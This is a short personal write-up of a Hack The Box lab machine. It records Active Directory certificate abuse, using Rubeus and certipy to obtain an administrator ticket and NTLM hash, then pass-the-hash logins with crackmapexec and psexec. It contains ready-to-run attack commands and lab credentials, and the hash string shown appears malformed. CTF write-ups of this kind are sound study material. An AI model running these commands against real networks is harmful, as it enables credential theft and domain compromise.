 Upload #rubeus to remote machine from #SharpCollection 

![[Pasted image 20241217204850.png]]
Upload certificate 

`upload cert.pfx`

![[Pasted image 20241217204940.png]]
Execute Rubeus 

`.\Rubeus.exe asktgt/user:administrator /certificate:C:\programdata\cert.pfx`

![[Pasted image 20241217205137.png]]
Got the tgt 

![[Pasted image 20241217205239.png]]
`dir C:\Users\administrator` - don't have access.

Failed to inject cert into our session. 

Get NTLM hash with:

`.\Rubeus.exe asktgt/user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap`

![[Pasted image 20241217205456.png]]
Could also take ticket and use psexec to login. 
We can also login with this NTLM hash. 

`cme smb 10.10.11.202 -u administrator -H A52F7BESGJGDGGSG7248476`

This worked. 

![[Pasted image 20241217205723.png]]

Login with #psexec 

`psexec.py -hashes A52F7BESGJGDGGSG7248476:A52F7BESGJGDGGSG7248476 administrator@10.10.11.202`

Just paste the NTLM hash twice. Got root. 
![[Pasted image 20241217210000.png]]

Alternate method to get in using #certipy 

This command will also show us vulnerable certificates

`certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable`

![[Pasted image 20241217210318.png]]
![[Pasted image 20241217210419.png]]

Requesting a certificate and this should give us a `.pfx` file

`certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication`
